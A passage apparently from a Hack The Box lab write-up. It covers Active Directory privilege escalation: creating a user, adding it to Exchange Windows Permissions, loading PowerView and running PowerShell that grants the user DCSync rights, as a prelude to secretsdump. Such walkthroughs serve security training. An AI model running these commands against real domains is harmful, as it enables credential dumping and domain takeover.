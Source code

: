 Based on the information above, I'll create another user called `shafiq` on the target machine and added to the `Exchange Windows Permissions` groups.

![create shafiq user](create-another-user-called-shafiq.png "create shafiq user")

### Impacket: secretsdump.py

I'll upload the [PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) to the target machine, which is located at `/usr/share/windows-resources/powersploit/Recon/PowerView.ps1` on the [Kali](https://www.kali.org/) machine and imported into my current PowerShell session like this `. .\PowerView.ps1`. Then, I'll give the `DCSync` rights to the `shafiq` user by executing the command below.

```powershell
$SecPassword = ConvertTo-SecureString 'P@ssw0rd1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\shafiq', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity shafiq -Rights DCSync
```

![given DCSync rights to shafiq](given-DCSync-rights-to-shafiq.png "given DCSync rights to shafiq")

